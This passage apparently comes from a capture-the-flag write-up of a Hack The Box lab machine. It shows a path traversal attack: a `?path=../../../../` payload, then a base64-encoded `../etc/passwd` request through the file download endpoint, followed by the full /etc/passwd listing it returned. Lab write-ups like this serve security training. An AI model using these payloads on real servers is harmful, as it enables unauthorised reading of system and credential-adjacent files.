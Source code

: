 ```bash
Verifying - Enter Export Password:
```

The last step is to import it into our browser and we should be able to access the "private" section of the page.

Looks like it is for downloading the show, cool but now what we want. Checking a bit more I got path traversal, using this: `https://lacasadepapel.htb/?path=../../../../` I was able to see the contents in `/`. The problem is that I cannot read files this way, but the page was allowing me to download the show chapters from something like `https://lacasadepapel.htb/file/U0VBU09OLTEvMDEuYXZp`... wait a moment is that base64?

```
U0VBU09OLTEvMDEuYXZp --> SEASON-1/01.avi
```

Huh, encoding `../../../../../etc/passwd` in base64 I was able to get the `/etc/passwd` file from `https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3D%3D`:

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
chrony:x:100:101:chrony:/var/log/chrony:/sbin/nologin
dali:x:1000:1000:dali,,,:/home/dali:/usr/bin/psysh
berlin:x:1001:1001:berlin,,,:/home/berlin:/bin/ash
professor:x:1002:1002:professor,,,:/home/professor:/bin/ash
vsftp:x:101:21:vsftp:/var/lib/ftp:/sbin/nologin
memcached:x:102:102:memcached:/home/memcached:/sbin/nologin
```
